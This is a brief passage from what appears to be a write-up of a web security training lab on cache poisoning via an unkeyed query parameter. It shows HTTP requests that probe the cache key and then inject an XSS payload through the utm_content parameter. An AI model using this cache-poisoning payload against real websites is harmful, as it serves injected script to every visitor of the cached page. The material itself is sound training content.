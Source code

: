 ```
GET /?test=ing123&utm_content=testing123 HTTP/2
...
Pragma: x-get-cache-key
Origin: 0a4b00720459a58f800058b200dc0063.web-security-academy.net
```



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20parameter/9.png)


Then use the previous payload for this new parameter:

```
GET /?utm_content=testing123'/><script>alert(1)</script><link+href='/ HTTP/2
...
Pragma: x-get-cache-key
Origin: 0a4b00720459a58f800058b200dc0063.web-security-academy.net
```


